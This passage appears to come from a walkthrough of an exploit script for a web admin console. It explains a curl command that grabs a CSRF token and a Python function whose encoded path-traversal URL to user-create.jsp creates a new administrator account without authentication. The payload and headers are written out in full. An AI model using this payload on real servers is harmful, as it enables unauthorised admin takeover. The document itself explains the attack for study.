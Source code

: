 As you can see this is just a HEAD request that could be performed in a browser or via cli like so.

```bash
#Command
curl -I http://[targetURL]/login.jsp | grep -e 'csrf'

#Example
curl -I http://127.0.0.1:8000/login.jsp | grep -e 'csrf'
```


##### `add_credentials` function: {#add-credentials-function}

This is where the exploitation logic is declared.

```python
def add_credentials(target_url, csrf_token, username, password):
    color.print(f"[blue][*][/blue] Launching exploit against: [yellow]{target_url}[/yellow]")
```

The function takes four arguments, `target_url`, `csrf_token`, `username`, and `password`. We've already seen the `target_url` and `csrf_token` in previous steps, so the only new inputs here are `username` and `password`, used to create a new user.

First, it prints a message indicating that it's launching the exploit against the specified `target_url`.



-  Constructing vulnerable paths &amp; headers:

    Next, it constructs a hard-coded vulnerable path called `vuln_path` &amp; declares the `Headers`

    ```python
        vuln_path = f'/setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf={csrf_token}&username={username}&password={password}&passwordConfirm={password}&isadmin=on&create=Create%2bUser'
        headers = {
            "Accept-Encoding": "gzip, deflate",
            "Accept": "*/*",
            "Accept-Language": "en-US;q=0.9,en;q=0.8",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36",
            "Connection": "close",
            "Cache-Control": "max-age=0",
            "Cookie": f"csrf={csrf_token}"
        }
    ```

    What’s interesting here is that the path traversal occurs at the beginning of the URL: `/setup/setup-s/%u002e%u002e/%u002e%u002e/`, which decodes to `../../` This allows the exploit to reach the `user-create.jsp` endpoint (an endpoint it normally shouldn’t have access to). The path also includes URL parameters like `csrf_token`, `username`, `password`, and other fields required to create a new admin user.

    The use of path traversal suggests that attackers could potentially access other unintended endpoints as well &amp; not just `user-create.jsp`.
